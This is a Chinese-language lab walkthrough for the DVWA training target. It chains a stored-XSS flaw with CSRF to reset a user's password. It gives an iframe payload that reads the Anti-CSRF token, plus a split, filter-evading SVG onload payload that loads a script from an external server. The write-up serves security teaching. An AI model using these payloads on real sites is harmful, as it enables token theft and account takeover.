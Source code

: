由于跨域是不能实现的，所以我们要将攻击代码注入到 dvwa 靶机中，才有可能完成攻击。下面利用 High 级别的存储型 XSS 漏洞协助获取 Anti-CSRF token(因为这里的 XSS 注入有长度限制，不能够注入完整的攻击脚本，所以只获取 Anti-CSRF token)。

注入代码如下
`<iframe src="../csrf" onload=alert(frames[0].document.getElementsByName('user_token')[0].value)>`

**另类通关**

通过 XSS 获得 token 之后修改密码
同等级的 XSS-Stored $name 可被我们利用做 XSS，这样就可以配合 CSRF 来重置用户密码了。
需要先说明一下 DVWA 的数据库设计，guestbook 表的 name 字段类型为 varchar(100)，也就是说最多 name 只能写入 100 个字符，超过的字符会被数据库抛弃不存储。

由于100个字符的限制，将payload分成多份提交
```js
<svg/onload="s='&#115;&#99;&#114;&#105;&#112;&#116;'">  # 事件内可以解析ASCII编码后的字符串
<svg/onload="j=document.createElement(s)">  # 拼接出一个script来引入外部js
<svg/onload="j.src='http://<服务器B>/x.js'">
<svg/onload="document.body.appendChild(j)">
```
这样就可以绕过后端的正则过滤

为了方便测试，在 x.js 里只写了 `alert('HelloDVWA')`

![image](../../../assets/img/安全/实验/dvwa/dvwa82.png)
